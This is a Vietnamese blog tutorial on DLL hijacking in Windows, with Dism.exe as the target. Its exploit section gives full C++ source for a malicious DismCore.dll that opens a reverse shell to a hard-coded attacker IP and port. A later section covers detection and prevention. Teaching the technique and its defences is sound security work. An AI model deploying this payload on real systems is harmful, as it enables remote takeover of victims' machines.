 # Cách khai thác lỗ hổng DLL Hijacking trên Windows

## Tìm hiểu cách phát hiện và ngăn chặn lỗ hổng DLL Hijacking hiệu quả với Process Monitor, DLLSpy, Dependency Walker,...

**Tác giả:** Thanh Kim  
**Danh mục:** Basic Hacking  
**Nguồn:** https://anonyviet.com/cach-khai-thac-lo-hong-dll-hijacking-tren-windows/

---

**DLL Hijacking** – Cái tên nghe có phần bí ẩn, nhưng lại là một kỹ thuật tấn công đầy thú vị mà bất kỳ ai quan tâm đến bảo mật đều muốn khám phá. Trên hệ điều hành Windows, các chương trình phụ thuộc rất nhiều vào tệp DLL (Dynamic Link Library) để hoạt động trơn tru. Nhưng nếu một hacker tinh ranh thay thế DLL gốc bằng phiên bản "độc hại", chuyện gì sẽ xảy ra?

**Lưu ý quan trọng:** Bài viết này chỉ phục vụ mục đích học tập và nghiên cứu. AnonyViet không khuyến khích bất kỳ hành vi bất hợp pháp nào, và bạn cần chịu trách nhiệm cho hành động của mình!

## **DLL Hijacking là gì?**

DLL Hijacking là một kỹ thuật khai thác lỗ hổng khi chương trình không kiểm soát chặt chẽ cách tải tệp DLL. Khi một ứng dụng như Dism.exe (công cụ quản lý hệ thống của Windows) chạy, nó sẽ tìm kiếm DLL cần thiết trong một loạt thư mục theo thứ tự ưu tiên.

Nếu hacker đặt một DLL giả mạo vào thư mục mà chương trình kiểm tra trước khi đến thư mục chính thống (như System32), ứng dụng sẽ "ngây thơ" tải mã độc thay vì DLL gốc. Đây chính là "khe hở" mà các chuyên gia bảo mật – hoặc hacker – có thể tận dụng.

## **Tại sao Dism.exe là mục tiêu lý tưởng?**

Dism.exe là một công cụ tích hợp sẵn trong Windows, thường nằm ở thư mục C:\\Windows\\System32. Vì tính phổ biến và vai trò quan trọng của nó trong việc quản lý hệ thống, Dism.exe trở thành "con mồi" hấp dẫn để thử nghiệm DLL Hijacking. Hơn nữa, cách Windows tìm kiếm DLL đôi khi thiếu chặt chẽ, mở ra cơ hội cho các cuộc tấn công tinh vi.

## **Hướng dẫn khai thác DLL Hijacking với Process Monitor**

Để khai thác lỗ hổng này, chúng ta cần công cụ Process Monitor từ Sysinternals. Đây là "trợ thủ đắc lực" giúp bạn theo dõi cách hệ thống tương tác với các tệp DLL. Dưới đây là các bước chi tiết:

### **Bước 1: Chuẩn bị môi trường thử nghiệm**

- Vào trang chính thức của Sysinternals để tải Process Monitor. Chỉ cần giải nén và chạy file Procmon.exe.
- Để an toàn, hãy sử dụng VirtualBox hoặc VMware thay vì thử trực tiếp trên máy chính.
- Chọn mục tiêu: Ở đây, mình chọn Dism.exe, nhưng bạn có thể áp dụng cách này cho bất kỳ chương trình nào.

### **Bước 2: Theo dõi hành vi của Dism.exe**

Mở Process Monitor, bạn sẽ thấy hàng loạt sự kiện hệ thống được ghi lại. Đừng hoảng! Hãy thiết lập bộ lọc để tập trung:

- Nhấn **Ctrl + L** (hoặc vào Filter > Filter).
- Thêm điều kiện: **Process Name – is – dism.exe – Include** và **Path – contains – .dll – Include**
- Nhấn **Add** rồi **OK**. Giờ Process Monitor chỉ hiển thị hoạt động liên quan đến Dism.exe và DLL.

### **Bước 3: Chạy Dism.exe và quan sát**

- Mở PowerShell, gõ **C:\\Windows\\System32\\dism.exe** và nhấn Enter.
- Quay lại Process Monitor, bạn sẽ thấy danh sách các DLL mà Dism.exe cố gắng tải.
- Nếu cột Result hiển thị "**NAME NOT FOUND**" thì đó là dấu hiệu chương trình có thể bị khai thác DLL Hijacking.

Ví dụ, mình phát hiện tệp **C:\\Windows\\System32\\DismCore.dll** có thể bị khai thác.

### **Bước 4: Tạo DLL giả mạo**

- Sao chép Dism.exe vào thư mục %Temp%.
- Tạo một file DismCore.dll độc hại. Ở đây mình đã tạo ra một payload reverse shell có tên là DismCore.cpp rồi biên dịch thành file DismCore.dll bằng Visual Studio sau đó copy vào thư mục %Temp% và chạy lại file Dism.exe

```cpp
#define REVERSEIP "193.161.193.99" #địa chỉ ip máy hacker
#define REVERSEPORT 52543 #port máy hacker
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")
WSADATA wsaData;
SOCKET Winsock; 
SOCKET Sock; 
struct sockaddr_in hax;
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{ 
WSAStartup(MAKEWORD(2,2), &wsaData);
Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);
hax.sin_family = AF_INET; 
hax.sin_port = htons(REVERSEPORT);
hax.sin_addr.s_addr = inet_addr(REVERSEIP);
WSAConnect(Winsock,(SOCKADDR*)&hax,sizeof(hax),NULL,NULL,NULL,NULL);
memset(&ini_processo,0,sizeof(ini_processo));
ini_processo.cb=sizeof(ini_processo); 
ini_processo.dwFlags=STARTF_USESTDHANDLES; 
ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;
CreateProcess(NULL,"cmd.exe",NULL,NULL,TRUE,0,NULL,NULL,&ini_processo,&processo_info); 
return TRUE;
}
```

### **Bước 5: Kiểm tra kết quả**

Chạy Dism.exe từ %Temp%. Nếu thành công, một kết nối reverse shell sẽ được gửi đến IP và port bạn đã định nghĩa. Hacker giờ có thể điều khiển máy từ xa!

## **Cách phát hiện và phòng chống DLL Hijacking**

Hiểu cách khai thác là một chuyện, nhưng bảo vệ hệ thống khỏi DLL Hijacking lại là một thử thách khác. Dưới đây là cách nhận diện và ngăn chặn:

### **Cách phát hiện DLL Hijacking**

#### **1. Khám phá bằng Process Monitor**

Đây là công cụ hữu hiệu để theo dõi quá trình chương trình tải DLL: Quan sát hoạt động của ứng dụng và tìm kiếm dòng "NAME NOT FOUND" trong cột kết quả, khi nó cố lấy DLL từ những vị trí không bảo mật (chẳng hạn thư mục đang dùng hoặc ngoài System32).

Nếu ứng dụng tìm kiếm DLL ở các nơi dễ bị kẻ xấu chèn tệp giả trước khi đến thư mục chuẩn, đó là dấu hiệu tiềm ẩn nguy cơ.

#### **2. Tận dụng DLLSpy**

DLLSpy là giải pháp gọn nhẹ, chuyên biệt để phát hiện nguy cơ DLL Hijacking:

**Cách thực hiện:**

1. Khởi động DLLSpy trên máy tính.
2. Công cụ sẽ rà soát các tiến trình đang chạy, kiểm tra cách chúng tìm kiếm DLL.
3. DLLSpy đưa ra danh sách những ứng dụng có thể bị tấn công nếu chúng ưu tiên tìm DLL từ các thư mục không đáng tin (như thư mục cá nhân hoặc đường dẫn bất thường).

**Điểm mạnh:** DLLSpy tự động hóa việc phân tích, giúp nhanh chóng chỉ ra các phần mềm dễ tổn thương mà không cần thao tác thủ công như với Process Monitor.

Ví dụ: Khi kiểm tra Dism.exe, DLLSpy có thể phát hiện xem nó tìm DismCore.dll ở đâu ngoài System32 hay không.

#### **3. Kiểm tra trình tự tải DLL qua Dependency Walker**

Tải về Dependency Walker (miễn phí) để xem xét các DLL mà phần mềm cần dùng.

Khởi chạy ứng dụng trong công cụ này, sau đó quan sát danh sách DLL cùng đường dẫn nạp. Nếu phát hiện DLL được lấy từ nơi không chính thống, đó là tín hiệu cảnh báo.

#### **4. Lưu ý dấu hiệu bất thường**

- Khi một phần mềm quen thuộc (như Dism.exe) hoạt động kỳ lạ (hiển thị thông điệp lạ lùng hoặc gặp lỗi), có khả năng DLL đã bị thay thế.
- Sử dụng Task Manager hoặc Process Explorer để kiểm tra các tiến trình liên quan và xác minh nguồn gốc tập tin.

### **Những biện pháp ngăn ngừa lỗ hổng DLL Hijacking**

#### **1. Giới hạn quyền truy cập thư mục**

- Đảm bảo chỉ tài khoản quản trị viên mới được phép ghi dữ liệu vào các thư mục quan trọng như C:\\Windows\\System32.
- Tránh khởi chạy ứng dụng từ những nơi không an toàn (ví dụ: C:\\Downloads), vì kẻ tấn công có thể đặt DLL giả mạo tại đó.

#### **2. Áp dụng đường dẫn cố định trong lập trình**

Nếu bạn phát triển phần mềm, hãy cấu hình để chương trình gọi DLL bằng đường dẫn rõ ràng (như C:\\Windows\\System32\\DismCore.dll), thay vì để nó tự do tìm kiếm.

#### **3. Bật chế độ SafeDLLSearchMode**

Kiểm tra và đặt giá trị SafeDllSearchMode trong Registry (tại **HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager**) thành 1, để ưu tiên các thư mục hệ thống trước tiên.

#### **4. Triển khai công cụ bảo vệ**

Sử dụng phần mềm diệt virus hoặc chống mã độc (như Malwarebytes, Kaspersky,…) để nhận diện và ngăn chặn các DLL nguy hiểm kịp thời.

## **Kết luận**

**DLL Hijacking** không chỉ là một kỹ thuật tấn công mà còn là lời cảnh báo về tầm quan trọng của bảo mật phần mềm. Với các công cụ như Process Monitor, bạn có thể vừa khai thác vừa phòng chống lỗ hổng này một cách hiệu quả. Thế giới bảo mật còn vô vàn điều thú vị đang chờ bạn khám phá. Hãy bắt đầu từ hôm nay, biến kiến thức thành sức mạnh và luôn cẩn thận trong từng bước đi nhé!

**Tags:** dll, DLL Hijacking, Hijacking